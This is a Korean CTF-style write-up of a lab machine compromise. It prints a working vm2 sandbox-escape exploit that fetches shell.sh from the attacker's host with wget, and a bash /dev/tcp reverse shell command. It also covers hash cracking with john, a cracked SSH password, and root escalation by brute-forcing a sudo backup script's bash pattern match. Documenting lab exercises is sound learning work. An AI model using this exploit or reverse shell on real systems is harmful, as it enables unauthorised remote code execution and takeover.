 ### 사용한 취약점: vm2 파일 시스템 관련 취약점, bash 환경에서의 스크립트 brute force
### 초기 침투

- Node.js code를 온라인에서 실행하는 샌드 박스 프로그램이 있는 것을 확인
- 해당 웹 서버에는 제한 사항이 있음(사용 불가 기능)
  - fs
  - 자식 프로세스

- 3.9.16 이하 버전 vm2 취약점이 있는 것을 알 수 있었다.
- 순서
  - 에러 객체에 오버라이딩 함
  - 에러를 발생시켜 오버라이딩한 내용을 실행
  - access objects created outside the sandbox and execute arbitrary code
- 해당 코드를 사용하여 실행한다.

```
const {VM}=require("vm2");
const vm=new VM();

const code=`
const customInspectSymbol=Symbol.for('nodejs.util.inspect.custom');

obj={

[customInspectSymbol]: (depth, opt, inspect)=>{
inspect.constructor('return process')().mainModule.require('child_process').execSync('wget <내 ip>:80/shell.sh');
}, valueOf: undefined,
constructor: undefined,
}
WebAssembly.compileStreaming(obj).catch(()=>{});
`;
vm.run(code);
```
- execSync('')안에 실행할 코드를 넣는다.
- python3 -m http.server 80 실행 후 wget http://10.10.14.33:80/shell.sh 를 넣어 쉘을 다운로드 시킨다.

### shell.sh에
### #!/bin/bash
### sh -i >& /dev/tcp/10.10.14.33/4444 0>&1 를 넣고 원격으로 실행 시킨다.
- chmod +x shell.sh, ./shell.sh 를 순서대로 넣어 reverse shell을 획득한다.
- 내부에서 얻은 결과
  - joshua 폴더로 이동할 수 없었다.
  - /var/www/contact/tickets.db 파일에서 pw 해시 값을 얻을 수 있었다.
- john pw.txt --wordlist=/usr/share/wordlists/rockyou.txt로 비밀번호 크랙을 시도한다.
- spongebob1 값을 찾았고 이를 사용하여 ssh joshua@10.10.11.239로 접속을 시도한다.</br>

### ssh로 연결 한 후
- sudo -l로 sudo 권한으로 실행할 수 있는 파일인 mysql-backup.sh를 찾을 수 있다.
  - mysql-backup.sh: mysql 백업 스크립트
  - sudo -l: 시스템의 현재 사용자 또는 지정된 사용자에게 부여 된 권한을 나열
- mysql-backup.sh
  - 스크립트 파일안에 pw를 검증하는 코드가 있는데 DB_PASS==USER_PASS에서 USER_PASS가 " " 안에 없을 경우 문자열로 인식하지 않고 pattern matching을 사용한다
  - 한 글자씩 비교하고 정규표현식으로 *를 넣어 패스워드를 비교한다
  - crack1.py를 만들고 python3 crack1.py로 실행하여 pw를 찾는다
  - 찾은 pw로 su root를 실행하여 root.txt를 찾는다

### 결론
- nodejs 코드 실행기에서 샌드박스 이스케이프를 활용하여 코드를 실행
- 취약한 mysql 백업 스크립트에서 root 패스워드 탈취
- bash에서 실행되는 db.sh이므로 brute force에 취약했음
- 웹 앱, db, 스크립트 광범위한 분야에서 보호해야 한다
